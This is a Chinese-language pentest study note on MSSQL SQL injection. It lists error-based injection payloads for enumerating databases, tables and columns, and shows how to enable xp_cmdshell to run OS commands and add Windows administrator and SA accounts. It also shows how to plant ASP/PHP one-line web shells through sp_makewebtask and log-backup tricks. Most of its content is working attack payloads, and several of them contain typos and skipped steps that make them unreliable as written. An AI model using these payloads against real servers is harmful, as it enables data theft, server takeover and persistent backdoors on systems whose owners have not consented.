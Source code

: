 #### sqlserver数据库介绍及操作

默认端口1433；

创建一个数据库，默认创建在路径中web.mdf;

任务，分离，删除链接，然后把创建的文件在默认路径中删掉就可以了；



1. 基础的查询语句：增删改查

   ` select * from table`

2. 数据库权限

   sa、db、public权限

   sa权利很大，db相当于普通票哪个用户，public相当于windows的guest用户；

#### 连接调用sqlserver数据库

调用数据库的代码，一般写在配置文件里面config, conn；

``` vb
<%
    set conn = server.createobject("adodb.connecton")
    conn.open "provider=sqloledb;source=local;uid=sa;pwd=***;database=database-name"
 %>
```

可能在的目录：==inc==/conn.asp，config.asp，web.config

#### sqlserver注入

判断是否有注入

```sql
1. 判断是否有注入  (会有变化)
and 1=1
and 1=2
/
-0
/*判断注入的方法是一样的*/

2. 初步判断是否是mssql
and user>0

3. 判断数据库系统
and (select count(*) from sysobjects)>0    /*mssql的系统表*/
and (select count(*) from msysobjects)>0   /*access的系统表*/

4. 注入参数是字符
and 

10. 测试权限结构   返回正常的话，就是对应的权限
and 1=(select IS_SRVROLEMEMBER('sysadmin'));--
and 1=(select IS_SRROLEMEMEMBER('serveradmin'));--
and 1=(select IS_SRROLEMEMEMBER('setupadmin'));--
and 1=(select IS_SRROLEMEMEMBER('securityadmin'));--
and 1=(select IS_SRROLEMEMEMBER('diskadmin'));--
and 1=(select IS_SRROLEMEMEMBER('bulkadmin'));--
adn 1=(select IS_MEMBER('db_owner'));--

11. 添加mssql和系统账户
exec master.dbo.sp_addlogin username;--
exec master.dbo.sp_password null, username,password;--
exec master.dbo.sp_addsrvrolemember sysadmin username;--
exec master.dbo.xp_cmdshell username;--
.....

```

- 手工判断注入

  `http://testasp.vulnweb.com/showforum.asp?id=0 '` 

- 获取数据库信息

  `id=1 and 1=(select @@version)  # 因为后面的查询结果是字符类型，转换失败，就爆出错误了`

  `id=@@version   # 等价` 

- 获取当前数据库名称

  `id=1 and 1=(select db_name())  # 也是由于类型不匹配`

- 获取第一个用户数据库

  `and 1=(select top 1 name from master..sysdatabases where dbid>4)`

  *获取从上往下数的第一行的name属性*

  - 判断接下来的数据库:

  `and 1=(select top 1 name from master..sysdatabases where dbid>5)` or

  `and 1=(select top 1 name from master..sysdatabases where dbid>4 and name<>'web')`

  会爆出错误：将nvarchar值'bookmis'转换为int类型时失败

  - ==非常牛逼的一个方法==

  `and 1=(select name from master..sysdatabases for xml path) # 把所有的数据库名按照xml列出`

- 获取第一张表

  `?id=1 and 1=(select top 1 name from sysobjects where xtype='u') #原理就是mssql报错信息`

- 获取表readers的列

  `?id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name='readers'))`

- 获取表的数据

  `?id=1 and 1=(select top 1 Reader_id from readers)`

有过滤，如何绕过？

​	比如大小写转换，%0a、+、/**/代替空格； *+ 为什么可以代替空格？*


> 那如果前端做的比较好，不显示报错信息呢？
> syscolumns、sysdatabases 、sysobjects 具体代表了什么？
>  - sysdatabases和数据库信息有关，它的name表示所有的数据库，dbid列是他们的顺序，也是标识符
>  - sysobjects和数据库中的表的信息有关，name是表名，xtype='u'表示用户表，id是表的标识符
>  - syscolumns和表的列属性有关，name是列名，可以通过表的id来选择所属的表。


#### sqlserver另类玩法
#### 

- 利用mssql扩展存储注入攻击

  ``` sql
  1. 检测与恢复扩展存储
  /*判断xp_cmdhshell扩展存储是否存在*/
  and 1=(select name from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell')
  
  /*判断xp_regread扩展存储过程是否存在*/
  and 1=(select count(*) from master.dbo.sysobjects where name='xp_regread')
  
  /*恢复*/
  exec sp_configure 'show advanced options',1,reconfigure;exec sp_configure 'xp_cmdshell',1;reconfigure;
  exec sp_dropexetendedproc xp_cmdshell, 'xplog70.dll'
  
  2. sa权限下扩展存储攻击 利用方法
  /*安装完插件之后；利用xp_cmdshell扩展，执行任意命令*/
  /*查看C盘*/
  drop table black
  create table black(dire varchar(7996) NULL, id int not null identity(1,1))
  insert into black exec master..xp_cmdshell 'dir C:\' ;
  and 1=(select top 1 dire from black where id=1);
  
  /*新建windows用户*/
  exec master..xp_cmdshell 'net user test test /add'
  exec master..xp_cmdshell 'net localgroup administrators test /add'
  /*添加和删除一个SA权限的而用户test*/
  exec master.dbo.sp_addlogin test,password
  exec master.dbo.sap_addsrvrolemember test,sysadmin
  /*停掉或激活开个服务（need sa）*/
  exec master..xp_servicecontrol 'stop','schedule'
  exec master..xp_servicecontrol 'start','schedule'
  
  /*创建之后登陆，利用远程桌面，连接服务器（打开3389）*/
  
  /*开启远程数据库*/
  select * from OPENROWSET('SQLOLEDB','server=servername;uid=sa;pwd=_123', 
  'select * from table1')
  
  ```

  如果防火墙只允许我访问80，可以把80改成别的，但是会影响原来的呀；——端口转发or源控码

- 利用sp_makewebtask写入一句话木马

  要知道绝对路径，否则写不进去

  `;exec sp_makewebtask 'e:\www_iis\yjh.asp','select''%3C%25%65%76%61%6C%20%72%65%71%75%65%73%74%28%22%63%68%6F%70%70%65%72%22%29%25%3E'''--`

- 写入一句话木马

  找到web目录后，即可写入一句话木马(dbo权限)

  ``` sql
  ;alter database news set RECOVERY FULL 
  ;create table test(str image)-- 
  ;backup log news to disk='c:\test' with init-- 
  ;insert into test(str)values ('<%excute(request("cmd"))%>')-- 
  ;backup log news to disk='c:\inetpub\wwwroot\yjh.asp'-- 
  ;alter database news RECOVERY simple
  ```
   [扩展参考](https://www.cnblogs.com/shanmao/archive/2012/11/15/2770878.html)

> 端口转发
>
> 一句话木马是什么
>
> ​		 最直白的形式：把<%execute(request("value"))%>插入	到网页里。
>
> 一句话木马能干嘛
>
> ​	- 似乎是执行远程的value值，这个值是命令
>
> 一句话木马怎么写
>
> ​	- <%execute(request("value"))%>， <?php @eval($_POST[value]);?>

#### sqlserver差异备份、完全备份、权限入侵

